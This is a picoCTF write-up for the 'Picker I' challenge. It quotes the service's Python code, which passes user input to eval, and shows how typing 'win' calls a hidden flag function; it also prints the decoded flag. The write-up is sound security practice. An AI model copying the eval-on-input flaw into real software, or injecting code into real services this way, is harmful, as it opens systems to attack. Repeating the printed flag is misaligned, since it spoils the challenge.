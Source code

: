 #Challenge: Picker I

#Objective
Find the flag using the provided service that produces random numbers. (It may do something else)

#Solution Steps
1. Launched instance of challenge
2. Downloaded all necessary files
    wget https://artifacts.picoctf.net/c/515/picker-I.py
3. Checked contents of directory 
    ls
4. Checked contents of file
    nano picker-I.py
5. Found function that would output flag
    def win():
        # This line will not work locally unless you create your own 'flag.txt' in
        #   the same directory as this script
        flag = open('flag.txt', 'r').read()
        #flag = flag[:-1]
        flag = flag.strip()
        str_flag = ''
        for c in flag:
            str_flag += str(hex(ord(c))) + ' '
        print(str_flag)
6. Found eval function inside user input
    try:
        print('Try entering "getRandomNumber" without the double quotes...')
        user_input = input('==> ')
        eval(user_input + '()')
6. Connected to program instance
    nc saturn.picoctf.net 62801
7. Prompted user input, tried flag function
    win
8. Outputted hexadecimal string, pasted string into cyberchef
    0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x34 0x5f 0x64 0x31 0x34 0x6d 0x30 0x6e 0x64 0x5f 0x31 0x6e 0x5f 0x37 0x68 0x33 0x5f 0x72 0x30 0x75 0x67 0x68 0x5f 0x63 0x65 0x34 0x62 0x35 0x64 0x35 0x62 0x7d
9. Placed From Hex into Recipe portion and set Delimiter to Auto; extracted flag from output
    flag: picoCTF{4_d14m0nd_1n_7h3_r0ugh_ce4b5d5b}

#Learned
How to exploit eval function to run other functions inside source code